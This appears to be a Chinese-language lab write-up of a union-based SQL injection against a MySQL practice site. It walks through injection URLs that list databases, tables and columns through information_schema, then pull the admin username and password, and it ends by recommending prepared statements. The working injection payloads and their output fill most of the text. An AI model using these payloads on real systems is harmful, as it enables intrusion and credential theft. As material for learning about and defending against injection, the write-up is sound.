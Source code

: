 # sql注入

## 通过sql注入获取管理员账号密码

### 环境
靶场：http://117.167.136.245:10180/
工具：chrome , navicat



### 流程

#### 1.进入网站 
![](https://demonself.oss-cn-hangzhou.aliyuncs.com/sql-inject1.png)

#### 2.寻找可能注入的点
![](https://demonself.oss-cn-hangzhou.aliyuncs.com/sql-inject2.png)

#### 3.写sql，进行注入

**如果是mysql，需要特别关注information_schema这个库，存储了这个mysql的所有信息**

##### a.获取所有数据库

http://117.167.136.245:10180/?id=1 and 1=2 union select 1, (select GROUP_CONCAT(schema_name) from information_schema
.SCHEMATA)

information_schema,maoshe,test

##### b.根据数据库获取所有表

http://117.167.136.245:10180/?id=1 and 1=2 union select 1, (select GROUP_CONCAT(table_name) from information_schema
.TABLES where table_schema='maoshe')

admin,dirs,news,xss

##### c.根据表获取所有字段

http://117.167.136.245:10180/?id=1 and 1=2 union select 1, (select GROUP_CONCAT(column_name) from information_schema
.columns where table_schema='maoshe' and table_name='admin')

Id,username,password

##### d.根据字段获取对应字段的值,这里我获取admin这张表的第一条数据

http://117.167.136.245:10180/?id=1 and 1=2 union select 1, (select GROUP_CONCAT(username,',',`password`) from admin
 limit 1)
![](https://demonself.oss-cn-hangzhou.aliyuncs.com/sql-inject3.png)

### 总结

1.关注mysql的information_schema库。

2.**服务对数据库进行操作的时候必须用预编译（PrepareStatement），防止sql注入**